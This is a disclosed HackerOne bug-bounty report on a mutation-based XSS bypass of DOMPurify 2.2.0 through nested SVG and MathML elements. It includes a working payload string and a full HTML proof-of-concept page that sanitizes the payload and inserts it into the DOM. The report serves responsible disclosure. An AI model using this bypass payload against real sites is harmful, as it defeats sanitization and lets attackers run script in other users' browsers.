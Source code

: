 # DOMPurify bypass

## Report Details
- **Report ID**: 1024734
- **URL**: https://hackerone.com/reports/1024734
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-02T19:06:35.920Z
- **Disclosed**: 2020-12-17T04:43:16.622Z

## Reporter
- **Username**: vovohelo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
A mutation based bypass exists in DOMPurify when sanitizing svg elements using almost the same technique described by Michał Bentkowski
(@SecurityMB) at https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/.

A PoC payload with the DOM state before and after parsing is available at https://livedom.lab.xss.academy/#%7B%22input%22%3A%22%3Cform%3E%3Cmath%3E%3Cmtext%3E%3C%2Fform%3E%3Cform%3E%3Cmglyph%3E%3Csvg%3E%3Cmtext%3E%3Cstyle%3E%3Cpath%20id%3D%5C%22%3C%2Fstyle%3E%3Cimg%20onerror%3Dalert(1)%20src%3E%5C%22%3E%22%2C%22parser%22%3A%22DOMPurify%20Latest%22%7D

The following is a PoC html document that uses DOMPurify's latest version available at https://github.com/cure53/DOMPurify/releases/tag/2.2.0

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.1//EN" "http://www.w3.org/TR/xhtml11/DTD/xhtml11.dtd">
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="./purify.js"></script>
    <title>DOMPurify bypass</title>
</head>

<body>
    <script>
        const html='<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(\'XSS\') src>">';
        const sanitized = DOMPurify.sanitize(html);
        let div = document.createElement('div');
        div.innerHTML = sanitized;
    </script>
</body>

</html>
```

The issue was already reported to the DOMPurify's team at https://github.com/cure53/DOMPurify/issues/482

## Impact

Websites using DOMPurify with its default configuration are vulnerable to XSS.

## Attachments
No attachments
